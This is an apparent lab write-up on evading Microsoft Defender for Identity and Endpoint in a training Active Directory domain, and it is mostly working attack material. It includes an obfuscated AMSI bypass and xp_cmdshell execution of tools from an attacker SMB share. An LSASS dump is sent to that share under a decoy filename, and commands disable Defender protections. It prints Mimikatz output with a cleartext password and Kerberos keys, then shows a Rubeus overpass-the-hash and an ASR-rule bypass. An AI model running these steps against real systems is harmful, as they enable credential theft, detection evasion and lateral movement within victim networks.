

Microsoft Defender for Identity (MDI) Bypass
Microsoft Defender for Identity (formerly known as Azure Advanced Threat Protection or Azure ATP) is a security solution that helps detect and investigate advanced threats, compromised identities, and malicious insider actions directed at your organization.
Here are some common techniques used to bypass MDI:
- Disabling Security Tools: Attackers may attempt to disable or tamper with MDI sensors or agents installed on domain controllers to evade detection.
- Living off the Land Binaries (LOLBins): Utilizing built-in Windows tools (like
net.exe,powershell.exe,wmi.exe) to perform malicious activities that might go undetected by MDI.
- Encrypted Communication: Encrypting malicious traffic to prevent network-based detection. Attackers often use SSL/TLS or other encryption methods to hide their activities.
- Custom Tools: Developing custom tools that do not trigger MDI's detection mechanisms. For instance, using bespoke malware or tools that do not match known attack patterns.
- Credential Theft: Stealing credentials and using legitimate accounts to perform actions. This technique can make malicious activities appear legitimate.
Microsoft Defender for Endpoint (MDE) Bypass
Microsoft Defender for Endpoint (formerly known as Microsoft Defender Advanced Threat Protection or Microsoft Defender ATP) is a platform designed to help enterprises prevent, detect, investigate, and respond to advanced threats. Techniques for bypassing MDE include:
- Fileless Malware: Utilizing fileless malware that operates in-memory and does not leave a footprint on the disk, making it harder for MDE to detect.
- Obfuscation: Obfuscating code or scripts to evade signature-based detection. This can involve encoding scripts or using various obfuscation tools to hide malicious code.
- Disabling Security Features: Attempting to disable MDE’s features such as real-time protection, cloud-delivered protection, and tamper protection.
- Privilege Escalation: Gaining higher privileges to disable or bypass security controls. This can involve exploiting vulnerabilities to elevate privileges.
- Code Injection: Injecting malicious code into legitimate processes to blend in with normal activity. Techniques like Process Hollowing or DLL Injection are often used.
- Command and Control (C2) Communication: Using sophisticated C2 channels that mimic legitimate traffic patterns to avoid detection. This might include using well-known services like Google Drive or Dropbox for C2 communication.
In this lab we will try to demonstrate some techniques to avoid being caught by MDI/MDEs in the network or in the target we are.
Assuming that we already have Domain Admin or even Enterprise Admin privilege, we have the ability to run commands as SYSTEM or an Administrator.
This is the perfect scenario to perform an LSASS dump to further gain persistent credential access to the machine.
To dump the memory of LSASS process, we can begin by leveraging minidumpdotnet as it is undetected by AV/MDE since it uses a custom implementation of the MiniDumpWriteDump() API call
MiniDumpDotNet
MiniDumpDotNet is a tool designed to create memory dumps of processes. Memory dumps are snapshots of the memory of a running process, which can include sensitive information like credentials, encryption keys, or other secrets. These dumps are often used by attackers to extract such sensitive information.
MiniDumpWriteDump() API
The MiniDumpWriteDump() function is a Windows API call provided by the DbgHelp.dll library. It allows developers to create a minidump of a process's memory. Minidumps can be used for debugging purposes or, in the context of an attack, to extract sensitive data from the memory of targeted applications, such as LSASS (Local Security Authority Subsystem Service) which handles user authentication.
Custom Implementation
Using a "custom implementation" of the MiniDumpWriteDump() API call means that MiniDumpDotNet does not use the standard library directly. Instead, it implements its own version of the function, which can vary in several ways:
- Avoiding Detection: By not using the standard
DbgHelp.dll, the tool can avoid triggering signatures that AV/MDE solutions may have for the standard function call. Many security solutions monitor calls toMiniDumpWriteDump()as it is commonly used by malicious tools to dump LSASS memory.
- Customization: The custom implementation can include modifications that make the memory dumping process stealthier or more efficient, further reducing the chances of detection.
4. Bypassing AV/MDE
AV and MDE solutions often rely on signature-based detection methods, heuristic analysis, and behavior monitoring to identify malicious activities.
However, custom implementations of standard functions can evade these detection mechanisms by:
- Signature Evasion: Since the custom implementation does not match known signatures, it is less likely to be flagged.
- Behavioral Evasion: The custom implementation can mask the behavior that typically triggers alerts in security solutions.
Detailed Example: MiniDumpDotNet in Action
- Implementation:
- A custom tool like MiniDumpDotNet would implement its own version of the
MiniDumpWriteDump()API. This can be done by directly interfacing with the necessary system calls and memory management functions to create a minidump.
- The custom implementation may use direct system calls, inline assembly, or other techniques to perform the memory dump without invoking
DbgHelp.dll.
- A custom tool like MiniDumpDotNet would implement its own version of the
- Execution:
- The attacker runs MiniDumpDotNet on the target system. It targets a process like LSASS to create a memory dump.
- The custom implementation ensures that the dump process is not detected by AV/MDE by avoiding common detection points, such as specific API calls or memory access patterns.
- Extraction:
- The memory dump is then analyzed to extract sensitive information, such as passwords or tokens. Tools like Mimikatz can be used to process the dump and retrieve this data.
Tools Transfer and Execution
Downloads over HTTP increase the chances of detection chained with other risky actions, so we perform execution from an SMB share instead of HTTP.
On our attacking machine(Windows), let’s create an SMB share called MyShares with the following configurations and permissions for the share:
Allow Everyone 'Read & Write'

Note: I’m adding this new MyShares shared folder in C:\Users\student451\MyShares.
Now let’s add these 2 tools into that shared folder.copy C:\AD\Tools\minidumpdotnet.exe \\DCORP-STD451/MyShares
copy C:\AD\Tools\FindLSASSPID.exe \\DCORP-STD451\MyShares

LSASS DUMP using Custom APIs
FindLSASSPID.exe is a tool designed to locate and dump the Local Security Authority Subsystem Service (LSASS) process, which is responsible for managing Windows security features such as authentication, authorization, and credential storage. Here's a detailed overview of the tool and its functionality:
Functionality
FindLSASSPID.exe is a command-line utility that uses the Windows API to find the process ID (PID) of the LSASS process and then performs a memory dump of the process using the MiniDumpWriteDump function. This allows the tool to capture the LSASS process's memory, which can be useful for forensic analysis, debugging, or other purposes.
Code Structure
The tool's code is structured around the following key components:
- Process Snapshot: The tool uses the
CreateToolhelp32Snapshotfunction to create a snapshot of all running processes. This allows it to iterate through the list of processes and find the LSASS process.
- LSASS PID Identification: The tool uses the
Process32FirstandProcess32Nextfunctions to iterate through the list of processes and identify the LSASS process by its executable name (lsass.exe).
- Process Handle: Once the LSASS process is identified, the tool opens a handle to the process using the
OpenProcessfunction with thePROCESS_ALL_ACCESSrights.
- MiniDumpWriteDump: The tool uses the
MiniDumpWriteDumpfunction to create a minidump of the LSASS process. This function writes the process's memory to a file specified by the user.
Usage
To use FindLSASSPID.exe, you need to compile the code and run it from the command line. The tool takes no command-line arguments and simply outputs the LSASS process's PID to the console. You can then use this PID to perform further actions, such as creating a minidump of the process.
Limitations
While FindLSASSPID.exe is a useful tool for finding and dumping the LSASS process, it has some limitations:
- AV/EDR Detection: The tool may be detected by antivirus (AV) or endpoint detection and response (EDR) systems, which could prevent it from running successfully.
- System Privileges: The tool requires system privileges to run, which can be a challenge in certain environments.
- Memory Dump Size: The size of the memory dump created by the tool can be large, which may require significant storage space.
A good bypass for the tool not being detected it to call and execute the tools remotely from our attacking machine using the shared file we created earlier.
Let’s begin by performing SQL crawl xp_cmdshell execution on EU-SQL30 to enumerate the LSASS PID using FindLSASSPID.exe.
Using PowerShell session let’s also use InvisiShell and import PowerUpSQL.
RunWithRegistryNonAdmin.bat

AMSI Bypass
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )
Now let’s query the LSASS PID running in EU-SQL-30.
. .\PowerUpSQL.ps1
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''\\DCORP-STD451\MyShares\FindLSASSPID.exe''' -QueryTarget EU-SQL30

As we can see above, we were able to gather the EU-SQL30 LSASS Process ID (716).
To break a detection chain, let’s run some benign queries first. In case of MDE, waiting for about 10 minutes also helps avoiding detection.Get-SQLServerLinkCrawl -Instance DCORP-MSSQL -Query 'Select @@version' -QueryTarget EU-SQL-30

Above you can see that our query had no return output. but it’s OK, we did it just to try to avoid some suspicious detection on MDE/MDI side.
We can now perform an LSASS dump using the minidumpdotnet tool and save it to the studentsharex.
NOTE: Performing an LSASS dump directly on disk on EU-SQL can cause the .dmp file to be corrupted as EDRs can sometimes mangle the .dmp file when written on disk.
I’ll be using the name My_Excel.dmp for my dump file to avoid any suspicious here HAHA.
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''\\DCORP-STD451.dollarcorp.moneycorp.local\MyShares\minidumpdotnet.exe 716 \\DCORP-STD451.dollarcorp.moneycorp.local\MyShares\My_Excel.dmp ''' -QueryTarget EU-SQL30

Please notice that our query won’t give us any output in CustomQuery… But we can check the .dmp file after +- 10 minutes after executing the minidumpdotnet query.
Let’s perform another benign query for safe measure to break any detection chain.
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'SELECT * FROM master.dbo.sysdatabases' -QueryTarget EU-SQL30

After some time, let’s say plus minus 8/10 minutes if we check out shared folder, we will see that our .dmp file is in the share, it contains round 10MB.

Back on our attacking machine and also containing the .dmp file, we can begin to parse the exfiltrated LSASS minidump (My_Excel.dmp) using Mimikatz.
Before using Mimikatz, open cmdlet as Administrator and also check if Defender is enabled, if YES, then disabled it.
After that you can continue.
Disable RealTime Defender using an Admin Account
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
set-MpPreference -DisableAutoExclusions $true
Now that we have disabled Firewall, we can use Mimikatz.exe to dump all the credentials from our .dmp file.
C:\AD\Tools>C:\AD\Tools\mimikatz.exe "sekurlsa::minidump \\DCORP-STD451\MyShares\My_Excel.dmp" "sekurlsa::ekeys" "exit"
.#####. mimikatz 2.2.0 (x64) #19041 Dec 23 2022 16:49:51
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ## > https://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####' > https://pingcastle.com / https://mysmartlogon.com ***/
mimikatz(commandline) # sekurlsa::minidump \\DCORP-STD451\MyShares\My_Excel.dmp
Switch to MINIDUMP : '\\DCORP-STD451\MyShares\My_Excel.dmp'
mimikatz(commandline) # sekurlsa::ekeys
Opening : '\\DCORP-STD451\MyShares\My_Excel.dmp' file for minidump...
Authentication Id : 0 ; 2954388 (00000000:002d1494)
Session : Interactive from 4
User Name : UMFD-4
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 6/18/2024 7:43:47 AM
SID : S-1-5-96-0-4
* Username : EU-SQL30$
* Domain : eu.eurocorp.local
* Password : F=!vGF(]A4Z_-;Bb^v>j*WUfYrEx=YePp6CT3'9j+woO)VF784p[ai\%wH!p2.[rLV+YNY,:*7.MCuFIh1WV;u:/^;\2nHV+#v.lw.V+/[WHYY*HWL+O/hgV
* Key List :
aes256_hmac 500318a0c9572ef2fc8d04c4dc5944a0c9973a81d5c2b687447bb0f9fb5cb39f
aes128_hmac cacc31c9e0264f6a09a4211e1e1c283d
rc4_hmac_nt e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_md4 e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_nt_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
Authentication Id : 0 ; 1600615 (00000000:00186c67)
Session : Interactive from 0
User Name : dbadmin
Domain : EU
Logon Server : EU-DC
Logon Time : 2/21/2024 7:09:58 AM
SID : S-1-5-21-3665721161-1121904292-1901483061-1105
* Username : dbadmin
* Domain : eu.eurocorp.local
* Password : *AnotherDBAnotherTreasure22
* Key List :
aes256_hmac ef21ff273f16d437948ca755d010d5a1571a5bda62a0a372b29c703ab0777d4f
aes128_hmac 2a2b0dd88240bdee8f6dbf4136f847cf
rc4_hmac_nt 0553b02b95f64f7a3c27b9029d105c27
rc4_hmac_old 0553b02b95f64f7a3c27b9029d105c27
rc4_md4 0553b02b95f64f7a3c27b9029d105c27
rc4_hmac_nt_exp 0553b02b95f64f7a3c27b9029d105c27
rc4_hmac_old_exp 0553b02b95f64f7a3c27b9029d105c27
Authentication Id : 0 ; 666169 (00000000:000a2a39)
Session : Interactive from 0
User Name : dbadmin
Domain : EU
Logon Server : EU-DC
Logon Time : 2/21/2024 6:34:32 AM
SID : S-1-5-21-3665721161-1121904292-1901483061-1105
* Username : dbadmin
* Domain : EU.EUROCORP.LOCAL
* Password : (null)
* Key List :
aes256_hmac ef21ff273f16d437948ca755d010d5a1571a5bda62a0a372b29c703ab0777d4f
rc4_hmac_nt 0553b02b95f64f7a3c27b9029d105c27
rc4_hmac_old 0553b02b95f64f7a3c27b9029d105c27
rc4_md4 0553b02b95f64f7a3c27b9029d105c27
rc4_hmac_nt_exp 0553b02b95f64f7a3c27b9029d105c27
rc4_hmac_old_exp 0553b02b95f64f7a3c27b9029d105c27
Authentication Id : 0 ; 996 (00000000:000003e4)
Session : Service from 0
User Name : EU-SQL30$
Domain : EU
Logon Server : (null)
Logon Time : 2/21/2024 6:33:57 AM
SID : S-1-5-20
* Username : eu-sql30$
* Domain : EU.EUROCORP.LOCAL
* Password : (null)
* Key List :
aes256_hmac d35bc0e8887fa1466f369b7555faf458ef366252520ac1abbac473a1d1f376d8
rc4_hmac_nt e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_md4 e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_nt_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
Authentication Id : 0 ; 3528739 (00000000:0035d823)
Session : Interactive from 7
User Name : UMFD-7
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 6/18/2024 7:44:49 AM
SID : S-1-5-96-0-7
* Username : EU-SQL30$
* Domain : eu.eurocorp.local
* Password : F=!vGF(]A4Z_-;Bb^v>j*WUfYrEx=YePp6CT3'9j+woO)VF784p[ai\%wH!p2.[rLV+YNY,:*7.MCuFIh1WV;u:/^;\2nHV+#v.lw.V+/[WHYY*HWL+O/hgV
* Key List :
aes256_hmac 500318a0c9572ef2fc8d04c4dc5944a0c9973a81d5c2b687447bb0f9fb5cb39f
aes128_hmac cacc31c9e0264f6a09a4211e1e1c283d
rc4_hmac_nt e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_md4 e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_nt_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
Authentication Id : 0 ; 3464718 (00000000:0034de0e)
Session : Interactive from 6
User Name : UMFD-6
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 6/18/2024 7:44:43 AM
SID : S-1-5-96-0-6
* Username : EU-SQL30$
* Domain : eu.eurocorp.local
* Password : F=!vGF(]A4Z_-;Bb^v>j*WUfYrEx=YePp6CT3'9j+woO)VF784p[ai\%wH!p2.[rLV+YNY,:*7.MCuFIh1WV;u:/^;\2nHV+#v.lw.V+/[WHYY*HWL+O/hgV
* Key List :
aes256_hmac 500318a0c9572ef2fc8d04c4dc5944a0c9973a81d5c2b687447bb0f9fb5cb39f
aes128_hmac cacc31c9e0264f6a09a4211e1e1c283d
rc4_hmac_nt e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_md4 e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_nt_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
Authentication Id : 0 ; 2975652 (00000000:002d67a4)
Session : Interactive from 5
User Name : UMFD-5
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 6/18/2024 7:43:56 AM
SID : S-1-5-96-0-5
* Username : EU-SQL30$
* Domain : eu.eurocorp.local
* Password : F=!vGF(]A4Z_-;Bb^v>j*WUfYrEx=YePp6CT3'9j+woO)VF784p[ai\%wH!p2.[rLV+YNY,:*7.MCuFIh1WV;u:/^;\2nHV+#v.lw.V+/[WHYY*HWL+O/hgV
* Key List :
aes256_hmac 500318a0c9572ef2fc8d04c4dc5944a0c9973a81d5c2b687447bb0f9fb5cb39f
aes128_hmac cacc31c9e0264f6a09a4211e1e1c283d
rc4_hmac_nt e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_md4 e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_nt_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
Authentication Id : 0 ; 1791252 (00000000:001b5514)
Session : Interactive from 3
User Name : UMFD-3
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 6/18/2024 7:42:07 AM
SID : S-1-5-96-0-3
* Username : EU-SQL30$
* Domain : eu.eurocorp.local
* Password : F=!vGF(]A4Z_-;Bb^v>j*WUfYrEx=YePp6CT3'9j+woO)VF784p[ai\%wH!p2.[rLV+YNY,:*7.MCuFIh1WV;u:/^;\2nHV+#v.lw.V+/[WHYY*HWL+O/hgV
* Key List :
aes256_hmac 500318a0c9572ef2fc8d04c4dc5944a0c9973a81d5c2b687447bb0f9fb5cb39f
aes128_hmac cacc31c9e0264f6a09a4211e1e1c283d
rc4_hmac_nt e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_md4 e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_nt_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
Authentication Id : 0 ; 1345732 (00000000:001488c4)
Session : RemoteInteractive from 2
User Name : dbadmin
Domain : EU
Logon Server : EU-DC
Logon Time : 2/21/2024 6:56:02 AM
SID : S-1-5-21-3665721161-1121904292-1901483061-1105
* Username : dbadmin
* Domain : EU.EUROCORP.LOCAL
* Password : (null)
* Key List :
aes256_hmac ef21ff273f16d437948ca755d010d5a1571a5bda62a0a372b29c703ab0777d4f
rc4_hmac_nt 0553b02b95f64f7a3c27b9029d105c27
rc4_hmac_old 0553b02b95f64f7a3c27b9029d105c27
rc4_md4 0553b02b95f64f7a3c27b9029d105c27
rc4_hmac_nt_exp 0553b02b95f64f7a3c27b9029d105c27
rc4_hmac_old_exp 0553b02b95f64f7a3c27b9029d105c27
Authentication Id : 0 ; 1283434 (00000000:0013956a)
Session : Interactive from 2
User Name : UMFD-2
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 2/21/2024 6:53:57 AM
SID : S-1-5-96-0-2
* Username : EU-SQL30$
* Domain : eu.eurocorp.local
* Password : F=!vGF(]A4Z_-;Bb^v>j*WUfYrEx=YePp6CT3'9j+woO)VF784p[ai\%wH!p2.[rLV+YNY,:*7.MCuFIh1WV;u:/^;\2nHV+#v.lw.V+/[WHYY*HWL+O/hgV
* Key List :
aes256_hmac 500318a0c9572ef2fc8d04c4dc5944a0c9973a81d5c2b687447bb0f9fb5cb39f
aes128_hmac cacc31c9e0264f6a09a4211e1e1c283d
rc4_hmac_nt e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_md4 e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_nt_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
Authentication Id : 0 ; 56392 (00000000:0000dc48)
Session : Service from 0
User Name : SQLTELEMETRY
Domain : NT Service
Logon Server : (null)
Logon Time : 2/21/2024 6:33:58 AM
SID : S-1-5-80-2652535364-2169709536-2857650723-2622804123-1107741775
* Username : EU-SQL30$
* Domain : eu.eurocorp.local
* Password : F=!vGF(]A4Z_-;Bb^v>j*WUfYrEx=YePp6CT3'9j+woO)VF784p[ai\%wH!p2.[rLV+YNY,:*7.MCuFIh1WV;u:/^;\2nHV+#v.lw.V+/[WHYY*HWL+O/hgV
* Key List :
aes256_hmac 500318a0c9572ef2fc8d04c4dc5944a0c9973a81d5c2b687447bb0f9fb5cb39f
aes128_hmac cacc31c9e0264f6a09a4211e1e1c283d
rc4_hmac_nt e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_md4 e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_nt_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
Authentication Id : 0 ; 20981 (00000000:000051f5)
Session : Interactive from 0
User Name : UMFD-0
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 2/21/2024 6:33:57 AM
SID : S-1-5-96-0-0
* Username : EU-SQL30$
* Domain : eu.eurocorp.local
* Password : F=!vGF(]A4Z_-;Bb^v>j*WUfYrEx=YePp6CT3'9j+woO)VF784p[ai\%wH!p2.[rLV+YNY,:*7.MCuFIh1WV;u:/^;\2nHV+#v.lw.V+/[WHYY*HWL+O/hgV
* Key List :
aes256_hmac 500318a0c9572ef2fc8d04c4dc5944a0c9973a81d5c2b687447bb0f9fb5cb39f
aes128_hmac cacc31c9e0264f6a09a4211e1e1c283d
rc4_hmac_nt e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_md4 e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_nt_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
Authentication Id : 0 ; 20943 (00000000:000051cf)
Session : Interactive from 1
User Name : UMFD-1
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 2/21/2024 6:33:57 AM
SID : S-1-5-96-0-1
* Username : EU-SQL30$
* Domain : eu.eurocorp.local
* Password : F=!vGF(]A4Z_-;Bb^v>j*WUfYrEx=YePp6CT3'9j+woO)VF784p[ai\%wH!p2.[rLV+YNY,:*7.MCuFIh1WV;u:/^;\2nHV+#v.lw.V+/[WHYY*HWL+O/hgV
* Key List :
aes256_hmac 500318a0c9572ef2fc8d04c4dc5944a0c9973a81d5c2b687447bb0f9fb5cb39f
aes128_hmac cacc31c9e0264f6a09a4211e1e1c283d
rc4_hmac_nt e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_md4 e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_nt_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
Authentication Id : 0 ; 999 (00000000:000003e7)
Session : UndefinedLogonType from 0
User Name : EU-SQL30$
Domain : EU
Logon Server : (null)
Logon Time : 2/21/2024 6:33:56 AM
SID : S-1-5-18
* Username : eu-sql30$
* Domain : EU.EUROCORP.LOCAL
* Password : (null)
* Key List :
aes256_hmac d35bc0e8887fa1466f369b7555faf458ef366252520ac1abbac473a1d1f376d8
rc4_hmac_nt e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_md4 e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_nt_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
rc4_hmac_old_exp e175d66c37d8c6a3ccb5d0e4607f3d8d
mimikatz(commandline) # exit
Bye!Amazing, we were able to dump the credentials used in EU-SQL30. Now we can do an OPTH to get a new session as dbadmin for EUROCORP.LOCAL domain and access the EU-SQL30 remotely.
Using PELoader.exe for args encoding.
Back to cmdlet, PELoader.exe is a tool used to load a payload into memory. So I’ll use PELoader.exe now to load and execute Rubeus.exe into memory. Pay attention that if we are using PELoader.exe to load payloads into memory only. It is also good that we execute ArgSplit.bat first to encode parameters of Rubeus, SafetyKatz and BetterSafetyKatz.
ArgSplit.bat
asktgt
[!] Argument Limit: 180 characters
[+] Enter a string: asktgt
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
Now, let’s use Overpass-the-hash our macine using Rubeus to start a new process with privileges of the dbadmin user who is a member of eu.eurocorp.local.
Run the below command from a high integrity process on our attacking machine(Run as administrator).
I’ll be using AES256 key for this OPTH because it’s more stealthy.
Username:dbadmin
aes256_hmac:ef21ff273f16d437948ca755d010d5a1571a5bda62a0a372b29c703ab0777d4f
Using Rubeus for OPTH
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:dbadmin /aes256:ef21ff273f16d437948ca755d010d5a1571a5bda62a0a372b29c703ab0777d4f /domain:eu.eurocorp.local /dc:eu-dc.eu.eurocorp.local /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

Now we can connect to EU-SQL30.
winrs -r:eu-sql30.eu.eurocorp.local cmd
{kind=link}

Lateral Movement – ASR Rules Bypass
Attack Surface Reduction (ASR)
Attack Surface Reduction (ASR) is a set of security controls in Windows Defender that restrict common malware and exploit techniques.
ASR aims to minimize the attack surface by eliminating unnecessary functions, strengthening the overall hardening of services and features, tightening access controls, and updating software regularly.
ASR Rules
ASR rules are part of the ASR controls in Defender. These rules are designed to block common activities associated with malicious activity, such as:
- Blocking Office applications from creating child processes
- Blocking Office applications from injecting code into other processes
- Blocking JavaScript or VBScript from launching downloaded executable content
- Blocking credential stealing from the Windows local security authority subsystem (lsass.exe)
- And many more.
ASR States
ASR rules can be configured in three states:
- Not Configured: No action is taken.
- Block: The rule blocks the specified activity.
- Audit: The rule generates events for insights but does not block the activity.
ASR Requirements
To enable ASR rules, the following requirements must be met:
- Windows 10 Pro, Enterprise, Education version 1709, and later
- Windows Server 2012R2/2016 supported using MDE unified agent
- Defender antivirus running in active mode
- Cloud-delivered protection recommended.
ASR Bypass
Bypassing ASR rules can be achieved through various methods, including:
- Code Execution: Using code that can bypass ASR rules by downloading and saving files with different extensions or using command-line tools to move files to their real paths.
- DLL Loading: Loading DLLs in a specific folder and calling Win32 API functions to bypass ASR rules.
The use of winrs is not detected by MDE but MDI(Microsoft Defender for Identity) detects it.
To avoid detection, we can use the WSManWinRM.exe tool. We will append an ASR exclusion such as “C:\Windows\ccmcache\” to avoid detection from the "Block process creations originating from PSExec and WMI commands" ASR rule. Run the below command from the process spawned as dbadmin
C:\AD\Tools\WSManWinRM.exe eu-sqlx.eu.eurocorp.local "cmd /c set username C:\Windows\ccmcache\"
To see the command output, we can redirect the command to our share file in out attacking machine.
This has very limited success and we are continuously trying ways to make it more effective.
C:\AD\Tools\WSManWinRM.exe EU-SQL30.eu.eurocorp.local "cmd /c dir >> \\DCORP-STD451.dollarcorp.moneycorp.local\MyShares\out.txt C:\Windows\ccmcache\"

If you face the issue on the screenshot below, you can install VC_redist.x64.exe and run WSManWinRM.exe.
The link for download is the one below screenshot.

https://learn.microsoft.com/en-us/cpp/windows/latest-supported-vc-redist?view=msvc-170